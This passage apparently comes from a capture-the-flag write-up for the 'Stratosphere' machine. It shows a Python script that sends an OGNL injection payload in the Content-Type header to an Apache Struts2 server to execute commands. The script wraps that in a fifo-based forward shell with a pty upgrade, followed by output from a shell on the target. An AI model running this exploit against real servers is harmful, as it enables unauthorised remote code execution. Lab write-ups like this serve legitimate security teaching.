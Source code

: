 ```
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"

        if proxy:
            proxies = self.proxies
        else:
            proxies = {}

        headers = {'User=Agent': 'Mozilla/5.0', 'Content-Type': payload}
        try:
            r = requests.get(self.url, headers=headers, proxies=proxies, timeout=timeout)
            return r.text
        except:
            pass

    def WriteCmd(self, cmd):
        b64cmd = base64.b64encode(f'{cmd.rstrip()}\n'.encode('utf-8')).decode('utf-8')
        stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
        self.RunRawCmd(stage_cmd)
        time.sleep(self.interval * 1.1)

    def UpgradeShell(self):
        # upgrade shell
        UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
        self.WriteCmd(UpgradeShell)

prompt = "stratosphere> "
S = Stratosphere()
while True:
    cmd = input(prompt)
    if cmd == "upgrade":
        prompt = ""
        S.UpgradeShell()
    else:
        S.WriteCmd(cmd)

```

### Successful Shell

That gives a nice stateful shell:

```

root@kali# python3 ./stratosphere_shell.py
[*] Session ID: 17370
[*] Setting up fifo shell on target
[*] Setting up read thread
stratosphere> pwd
/var/lib/tomcat8

stratosphere>

ls
conf
db_connect
lib
```
